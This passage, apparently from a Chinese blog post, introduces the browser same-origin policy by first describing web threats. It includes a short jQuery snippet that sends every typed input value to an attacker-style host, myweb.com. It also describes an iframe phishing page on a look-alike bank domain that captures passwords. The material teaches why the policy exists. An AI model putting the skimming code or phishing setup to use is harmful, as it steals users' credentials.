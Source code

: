 ```yaml
---
title: 同源策略
---
```


<p class="lead">
	本文讨论浏览器上的同源策略，分析同源策略已解决了什么问题，以及目前还存在什么问题。
</p>

首先，我们先不看什么是同源策略，先来想一些web安全方面的隐患：

* 假如我写了一个通用的js库，被很多开发者引用，但他们不知道我在里面偷偷加了一些恶意代码：getInputValAndSendToDB()。这个方法的主要功能是监听用户的键盘输入，并将输入的值通过ajax或JSONP等形式发送到我的服务器并存储到数据库中。

代码看起来可能像这样：
{% highlight js %}

function getInputValAndSendToDB(){
	$('input').on('change', function (e) {
		var userInput = $(this).val();
		$.get('http://www.myweb.com/save?val=' + userInput);
	});
}

{% endhighlight %}

* 假如我写了一个html页面，里面只有个iframe元素，src属性设置为某个银行主页的地址。我还申请了一个和该银行主页类似的域名，最后将页面部署到Internet上。当有人打开这个页面，他们看到的内容和真正打开银行主页所看到的没有任何差别，但他们不知道其实我还在页面中加入了一段js代码，例如上面的getInputValAndSendToDB方法，监听银行主页的用户名input以及密码input。再例如，将银行页面中的某个链接的href属性改成其它钓鱼网站的地址，诱使用户在钓鱼网站上输入他们的用户名、密码、银行卡号等信息。
